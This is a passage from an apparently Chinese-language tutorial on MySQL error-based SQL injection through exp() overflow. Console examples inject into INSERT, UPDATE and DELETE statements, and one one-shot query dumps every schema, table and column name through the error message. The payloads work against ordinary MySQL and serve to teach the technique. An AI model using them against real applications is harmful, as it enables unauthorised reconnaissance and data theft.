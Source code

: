 ```
mysql> select exp(~(select*from(select 'hello')a)) into outfile 'C:/out.txt';
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'hello' from dual)))'    

# type C:\out.txt
0

```

0x05 Injection in Insert
========================

* * *

按部就班就好

```
mysql> insert into users (id, username, password) values (2, '' ^ exp(~(select*from(select user())x)), 'Eyre');
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

```

对于所有的`insert，update`和`delete`语句`DIOS`查询也同样可以使用。

```
mysql> insert into users (id, username, password) values (2, '' | exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)), 'Eyre');
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '000
newdb::users::id
newdb::users::username
newdb::users::password' from dual)))'

```

0x06 Injection in Update
========================

* * *

```
mysql> update users set password='Peter' ^ exp(~(select*from(select user())x)) where id=4;
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

```

0x07 Injection in Delete
========================

* * *

```
mysql> delete from users where id='1' | exp(~(select*from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

```

0x08 总结
=======
